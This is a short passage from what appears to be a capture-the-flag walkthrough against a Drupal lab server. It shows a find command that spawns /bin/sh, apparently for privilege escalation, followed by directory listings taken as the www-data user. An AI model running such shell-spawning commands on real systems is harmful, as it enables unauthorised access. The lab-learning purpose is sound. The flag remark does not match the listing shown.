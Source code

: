 command is following.

```
find . -exec '/bin/sh' \;-quit
```
also explain [it](https://www.explainshell.com/explain?cmd=find+.+-exec+%27%2Fbin%2Fsh%27+%5C%3B-quit)

---
another way

 we can broswer the file system...

like this~ 

```
ls -al 
total 408
drwxr-xr-x  3 www-data www-data   4096 Nov 21  2013 .
drwxr-xr-x 42 www-data www-data   4096 Nov 21  2013 ..
drwxr-xr-x  2 www-data www-data   4096 Nov 21  2013 tests
-rw-r--r--  1 www-data www-data    595 Nov 21  2013 user-picture.tpl.php
-rw-r--r--  1 www-data www-data   1001 Nov 21  2013 user-profile-category.tpl.php
-rw-r--r--  1 www-data www-data    918 Nov 21  2013 user-profile-item.tpl.php
-rw-r--r--  1 www-data www-data   1689 Nov 21  2013 user-profile.tpl.php
-rw-r--r--  1 www-data www-data    510 Nov 21  2013 user-rtl.css
-rw-r--r--  1 www-data www-data  39444 Nov 21  2013 user.admin.inc
-rw-r--r--  1 www-data www-data  15764 Nov 21  2013 user.api.php
-rw-r--r--  1 www-data www-data   1827 Nov 21  2013 user.css
-rw-r--r--  1 www-data www-data    356 Nov 21  2013 user.info
-rw-r--r--  1 www-data www-data  29469 Nov 21  2013 user.install
-rw-r--r--  1 www-data www-data   6568 Nov 21  2013 user.js
-rw-r--r--  1 www-data www-data 141243 Nov 21  2013 user.module
-rw-r--r--  1 www-data www-data  21779 Nov 21  2013 user.pages.inc
-rw-r--r--  1 www-data www-data   2723 Nov 21  2013 user.permissions.js
-rw-r--r--  1 www-data www-data  99132 Nov 21  2013 user.test
-rw-r--r--  1 www-data www-data   4093 Nov 21  2013 user.tokens.inc
file *
tests:                         directory
user-picture.tpl.php:          PHP script, ASCII text
user-profile-category.tpl.php: PHP script, ASCII text
user-profile-item.tpl.php:     PHP script, ASCII text
user-profile.tpl.php:          PHP script, ASCII text
user-rtl.css:                  ASCII text
user.admin.inc:                PHP script, ASCII text, with very long lines
user.api.php:                  PHP script, ASCII text
user.css:                      ASCII text
user.info:                     ASCII text
user.install:                  PHP script, ASCII text, with very long lines
user.js:                       ASCII text
user.module:                   PHP script, ASCII text, with very long lines
user.pages.inc:                PHP script, ASCII text, with very long lines
user.permissions.js:           ASCII text
user.test:                     C++ source, UTF-8 Unicode text, with very long lines
user.tokens.inc:               PHP script, ASCII text
pwd
/var/www/modules/user
```
you can see flag1.txt in your www-data root dir
